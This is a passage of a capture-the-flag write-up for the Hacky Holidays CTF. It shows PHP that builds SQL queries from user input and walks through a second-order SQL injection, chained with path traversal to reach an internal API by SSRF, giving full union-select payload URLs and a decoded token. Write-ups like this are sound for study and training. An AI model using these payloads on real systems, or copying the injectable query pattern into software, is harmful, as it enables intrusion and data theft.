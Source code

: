 ```php
$album_hash='3dir42'; # This parameter will be coming from user which have our sql-injection

$album_id = "select id from album where id='${album_hash}'";
$photos = "select id,album_id,photo from photo where album_id='${album_id}'";

```

we can use injection at `album_hash` to completely control what goes into `$album_id`. `$album_id` then goes into 2nd query, thus we can have injection in 2nd query also. 

Sending something like `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-1' union select '2','x','x'-- -` would look like:

```
hash = -1' union select '2','x','x'-- -

QUERY-1:
    select id, hash, name from album where id=-1' union select '2','x','x'-- -
            
Query-2 (id from above query will be album_id in this here which in this case = 2):
    select id, album_id, photo from photo where album_id='2';
```

There is only 1 picture with album_id=2. The output of the above query 1 picture and thus we can confirm that we have 2 level injection. 

![](https://i.imgur.com/rj5aY5J.png)

Now because we can control 2nd query results too, our goal is to SSRF to `/api/*` endpoint as found above. Following sql-injection should manipulate `photo` location as we want.

URL: `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-1' union select '-1\' union select 1,1,"../../../r3c0n_server_4fdk59/api/test"-- -','x','x'-- -` 

```
hash = -1' union select '-1\' union select 1,1,"../../../r3c0n_server_4fdk59/api/test"-- -','x','x'-- -

Query-1: 
    select id, hash, name from album where id=-1' union select '-1\' union select 1,1,"../../../r3c0n_server_4fdk59/api/test"-- -','x','x'-- -

Query-2 
    * album_id from above query => -1' union select 1,1,"../../../r3c0n_server_4fdk59/api/test"-- -
    
    select id, album_id, photo from photo where album_id='-1' union select 1,1,"../../../r3c0n_server_4fdk59/api/test"-- -
```
![](https://i.imgur.com/Cwkp8AR.png)

The img URL `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC8uLlwvLi5cL3IzYzBuX3NlcnZlcl80ZmRrNTlcL2FwaVwvdGVzdCIsImF1dGgiOiI3MGI3Yzk0MjE1ZjE1YzYzNzA2N2RiOWU5YjFkZDFlMyJ9` containts base64 JSON 

```json
{"image": "r3c0n_server_4fdk59/uploads/../../../r3c0n_server_4fdk59/api/test", "auth": "70b7c94215f15c637067db9e9b1dd1e3"}
``` 
